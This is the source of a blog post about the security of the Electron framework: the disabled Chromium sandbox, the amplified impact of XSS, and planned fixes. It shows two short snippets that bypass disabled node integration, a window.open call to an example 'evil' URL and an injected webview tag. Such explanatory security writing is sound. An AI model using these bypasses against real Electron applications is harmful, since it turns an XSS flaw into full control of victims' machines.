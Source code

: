 ```yaml
---
author: dkerr
title: As It Stands - Electron Security
title-short: Electron Security
layout: default_post
categories:
  - Tech
summary: A brief look at the current state of application security in Electron
image: dkerr/assets/featured/electron.jpg
tags:
  - featured
---
```


Over the past few years, there's been an increasing demand for web applications to separate from the browser and become fully integrated desktop applications. Previously, the amount of time and effort required to convert an existing application was a major roadblock to developers and businesses. However, frameworks are starting to appear offering an easier route to build cross-platform desktop applications utilising web technologies.

Back in early 2014, the [Atom IDE](https://atom.io) was released by GitHub with much fanfare. What made Atom unique was how GitHub managed to develop this cross-platform desktop application using only web technologies. Under the hood of Atom, the open-source Electron framework was developed to allow Atom to look, feel and behave just like a desktop application.

Ever since Atom's release, Electron has been rapidly gaining popularity and is being used to build an [extensive variety](http://electron.atom.io/#built-on-electron) of desktop applications. Companies such as Facebook, Slack, Docker and Microsoft are using it to build applications from the eponymously named [Slack](https://slack.com/), a messaging client inspired by IRC, to [Kinematic](https://kitematic.com), a GUI used to visualise and manage docker containers.

<p style="text-align: center">
	<img src='{{ site.baseurl }}/dkerr/assets/atom-electron-chromium.png' title="Atom stack" alt="Atom + Electron + Chromium stack" />
</p>

To allow web applications to run as desktop applications, Electron uses [Chromium](https://www.chromium.org/Home). Chromium is the open source foundation on which the Chrome web browser is based. Effectively, an Electron application is running inside a customised Chromium wrapper. Therefore, the security challenges an Electron application faces are almost identical to if it was running inside Chrome or any other web browser.

## Goodbye Sandbox

<p style="text-align: center">
	<img src='{{ site.baseurl }}/dkerr/assets/chromium-sandbox.png' title="Chromum Sandbox" alt="Chromium sandbox" />
</p>

The [Chromium sandbox](https://www.chromium.org/developers/design-documents/sandbox) encapsulates processes inside a very restrictive environment. The only resources sandboxed processes can freely use are CPU cycles and memory. What processes can do is controlled by a well-defined policy, this prevents bugs or attacks from performing IO operations (e.g. reading / writing files) on the user's system.

To provide applications with desktop functionality, the Electron team modified Chromium to introduce a runtime to access native APIs as well as Node.js's built in and third-party modules. To do this the Chromium sandbox protection was disabled, meaning any application running inside Electron is given unfiltered access to the operating system.

<p style="text-align: center">
	<img src='{{ site.baseurl }}/dkerr/assets/electron-sandbox.png' title="Electron Sandbox" alt="Electron sandbox" />
</p>

This is not a concern for a lot of Electron applications, especially those that don't pull in remote data and need extensive operating system privileges anyway (such as an IDE). However, this is a (potentially) serious and unnecessary security risk for applications that do pull in remote data, any successful XSS attack would give the attacker full control over the victim's machine!

It's worth stressing that a successful XSS attack within a sandboxed application is still a catastrophic event that can do untold damage. Even restricted to the sandbox, an attack can execute scripts to hijack user sessions, deface web sites, insert hostile content, redirect users and install malware. Nonetheless, unless they escape the sandbox the potential for damage stops at the browser level with the operating system left unharmed and only data explicitly shared with the browser at risk.

## False sense of security

To reduce the potential impact of an XSS attack on their application, many developers look at turning off node integration if it isn't needed. It's a sensible approach taken to [minimise the attack surface](https://www.owasp.org/index.php/Secure_Coding_Principles#Minimize_attack_surface_area) of the application, and [retain the least amount of privilege](https://www.owasp.org/index.php/Secure_Coding_Principles#Principle_of_Least_privilege) required to perform their business function.

Each Electron application has a [main process](http://electron.atom.io/docs/v0.36.8/tutorial/quick-start/#main-process) which executes a script that bootstraps the application. This script creates web pages by instantiating [BrowserWindow](https://github.com/atom/electron/blob/master/docs/api/browser-window.md) objects, each instance runs in their own process called the renderer process. In this script, it's possible to turn off node integration for each renderer process by setting a [`nodeIntegration` flag](https://github.com/atom/electron/blob/master/docs/api/browser-window.md#new-browserwindowoptions) to false inside the configuration provided when instantiating the BrowserWindow:

{% highlight js %}
new BrowserWindow({
    webPreferences: { nodeIntegration: false }
});
{% endhighlight %}

**However, exploits exist that allow the renderer processes to re-enable node integration despite it being explicitly turned off in the configuration!** This is something many developers are unaware of, any XSS attack has the potential to use these loopholes to re-enable node integration and gain full control over the victim's machine.

The first [workaround](https://github.com/atom/electron/issues/4026) uses Electron's [`window.open`](http://electron.atom.io/docs/v0.36.8/api/window-open/) function to spawn new child windows. The default behaviour for a new child window is to inherit the parent window's options. Currently, it's possible to override the options (including node integration) by setting them in the features string when calling `window.open`:

{% highlight js %}
window.open("www.example.com/evil.html", "", "nodeIntegration=1");
{% endhighlight %}

The code above spawns a new BrowserWindow object which displays the provided URL in a web page with node integration enabled. Any scripts ran within the given URL would have full access to all the Node APIs (e.g. [`FileSystem`](https://nodejs.org/api/fs.html#fs_file_system)) and any Electron modules [provided to renderer processes](http://electron.atom.io/docs/v0.36.8/#modules-for-the-renderer-process-web-page).

Another [workaround](https://github.com/atom/electron/issues/3943) involves inserting a [`webview`](https://electron.atom.io/docs/api/webview-tag/) element into the page. The webview element is a custom Electron DOM element used to embed guest content (such as web pages) inside an application. It's possible to add `nodeintegration` and `disablewebsecurity` attributes to the webview element to provide the guest content with access to the Node APIs as well as bypassing any [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS) restrictions enforced by the renderer process.

{% highlight html %}
<webview src="data:text/html,<script>var fs = require('fs')</script>" nodeintegration></webview>
{% endhighlight %}

The example above runs an inline script that imports Node's [`FileSystem`](https://nodejs.org/api/fs.html#fs_file_system) module, access is granted thanks to the `nodeintegration` attribute placed on the `webview` element. The guest content inside the webview has identical privileges to the `window.open` workaround.

## As it stands

Successful XSS attacks are already catastrophe events for web applications. Electron widens the consequences of these attacks since they are no longer constrained by the sandbox from accessing the victim's machine. This places even greater emphasis on developers to ensure that their applications are not vulnerable to XSS, as the layer of protection offered by the sandbox is no longer present.

One smaller concern is how up-to-date the Electron team will keep its version of Chromium. As security issues are [patched and published](http://googlechromereleases.blogspot.co.uk/2016/03/stable-channel-update.html) by the Chromium team, Electron will need to keep updated to stay protected against exploits. So far, the team have been keeping Electron closely in sync and [their plan](https://electron.atom.io/docs/faq/#when-will-electron-upgrade-to-latest-chrome) is to be only one to two weeks behind. It's worth pointing out that there are a number of large companies who have a lot to lose if Electron ever fell too far behind, this makes it rather unlikely to happen but it's still a potential risk to monitor.

## Planned Changes

The good news is that Electron is a very active open source project, backed by a major web player ([GitHub](https://www.github.com)) and a lot of companies have built their products using it. As a result, the workarounds mentioned above (as well as other issues) are already being addressed thanks to contributions from a number of interested parties.

Once those workarounds have been patched, Electron applications should be a lot more resilient against XSS attacks re-enabling node integration. It's worth pointing out that there's an [open discussion](https://github.com/atom/electron/issues/1753) around Electron's security model on GitHub, so further changes and improvements are likely to be made once this discussion is finalised.

One notable contribution that's underway is the return of sandbox protection for any Electron applications that don't need node integration. This work is being undertaken by the developers of [Brave](https://www.brave.com/), a recently-announced web browser which aims to block ads and trackers to protect user's privacy and enhance browsing speed. They've been incredibly open about [their plan](https://twitter.com/BrendanEich/status/696610645693730816) which is to contribute their progress back to the community, once the work on their forked version of Electron is finished.

<p style="text-align: center">
	<img src='{{ site.baseurl }}/dkerr/assets/brave-sandbox.png' title="Brave Sandbox" alt="Brave sandbox" />
</p>

They're using Electron to wrap the webpage content shown by their browser, this means they're not in control of the content being shown and so are far more vulnerable to attacks. The content they are showing needs no node or desktop integration, so the loss of this functionality caused by re-enabling the sandbox protection isn't an issue to them.

## Conclusion

To summarise, Electron currently has its fair share of security issues that complicate the process of building secure applications. The removal of the sandbox protection in return for desktop integration removes an important [layer of defence](https://www.owasp.org/index.php/Defense_in_depth) against XSS attacks. Various workarounds also exist that circumvent turning node integration off in the event of an XSS attack. Fortunately, due to the framework's popularity and active community the Electron team are already making good progress to resolving these issues.

With that said, there's still a lot of work to be done. One major goal should be a more secure way for applications that do need some node and desktop integration to interact with the operating system. At the moment however, there's no clear path forward on how that would be achieved.

**[See this post for an update](http://blog.scottlogic.com/2016/06/01/An-update-on-Electron-Security.html) to the points raised in this article.**
